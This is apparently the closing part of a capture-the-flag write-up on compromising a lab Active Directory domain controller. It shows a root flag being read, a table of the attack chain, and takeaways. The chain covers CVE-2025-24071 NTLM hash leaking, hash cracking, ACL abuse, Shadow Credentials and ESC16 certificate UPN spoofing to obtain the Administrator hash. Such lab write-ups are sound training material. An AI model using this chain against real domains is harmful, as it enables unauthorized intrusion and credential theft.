*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/21/2026   9:15 PM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
09e70c2eb04b11603dc09d7bd39f804b
```

`root.txt` retrieved.

---

## Summary of Techniques

| Stage | Technique |
|---|---|
| Recon | Standard AD DC port sweep; `ssl-cert` issuer (`fluffy-DC01-CA`) hinted at ADCS before dedicated enumeration; nmap flagged a ~7 hour clock skew up front |
| Enumeration | Writable non-default `IT` SMB share found via `nxc`/`smbclient`; `Upgrade_Notice.pdf` leaked a table of recently-patched CVEs |
| Foothold | **CVE-2025-24071** — malicious `.library-ms` inside a `.zip` dropped on the writable share, triggering a NetNTLMv2 leak to Responder purely from Explorer extraction |
| Credential access | Captured NetNTLMv2 hash for `p.agila` cracked instantly with `hashcat`/`rockyou.txt` |
| Enumeration (2) | `bloodhound-ce-python` revealing a nested-group ACL chain: `p.agila` → `GenericAll` (via group) → `Service Accounts` → `GenericWrite` → `{ca_svc, ldap_svc, winrm_svc}` |
| Access | Self-added to `Service Accounts` via `net rpc group addmem` to inherit the group's `GenericWrite` |
| User | Shadow Credentials (`certipy shadow auto`) against `winrm_svc` (member of `Remote Management Users`) → Evil-WinRM |
| PrivEsc (1) | Shadow Credentials again against `ca_svc` |
| PrivEsc (2) | ADCS enumeration (`certipy find -vulnerable`) identifying **ESC16** — CA-wide disabled security extension (`szOID_NTDS_CA_SECURITY_EXT`) |
| PrivEsc (3) | ESC16 exploitation: UPN spoof (`certipy account update -upn administrator`) on self-controlled `ca_svc`, certificate enrollment, UPN reverted |
| Root | Certificate-based Kerberos auth (`certipy auth`) recovering the Administrator NT hash, then Evil-WinRM |
| Troubleshooting (recurring) | `KRB_AP_ERR_SKEW` (Clock skew too great) hit repeatedly throughout every Kerberos-dependent step; resolved each time by racing `sudo ntpdate <dc-ip>` immediately before the Kerberos command |

---

## Lessons / Takeaways

- Writable, non-default file shares on a DC are worth treating as a delivery channel, not just a leak source — if IT staff extract archives from it, that's an attack surface (CVE-2025-24071 here).
- A `.library-ms` file inside a zip can leak credentials on mere extraction, with zero further interaction — a reminder that "opening" isn't the only dangerous action a user can take with an untrusted archive.
- `GenericAll`/`GenericWrite` granted to a **group** (rather than directly to a user) still requires actually joining that group to exercise the right — Windows resolves ACLs against the caller's full token, including group SIDs, not just the object owner.
- Shadow Credentials (`msDS-KeyCredentialLink` abuse) is a clean way to compromise an account via `GenericWrite`/`GenericAll` without resetting its password.
- ESC16 is a CA-wide misconfiguration (disabled `szOID_NTDS_CA_SECURITY_EXT`), distinct from the per-template `NoSecurityExtension` flag (ESC9) — it's worth checking `certipy find -vulnerable`'s CA-level output, not just the template list, since a CA with *no enabled templates shown* can still be exploitable.
- Kerberos's default 5-minute clock tolerance is unforgiving in lab environments with drifting VM clocks — when a single `ntpdate` correction doesn't survive to the end of a multi-round-trip command (e.g. `certipy shadow auto`'s cert-then-hash-retrieval sequence), re-running `ntpdate` immediately before each individual Kerberos-dependent command is a reliable workaround.
- Reverting an abused account's UPN (or any other tampered attribute) right after use is good engagement hygiene, even though it isn't required for the exploit itself to succeed.
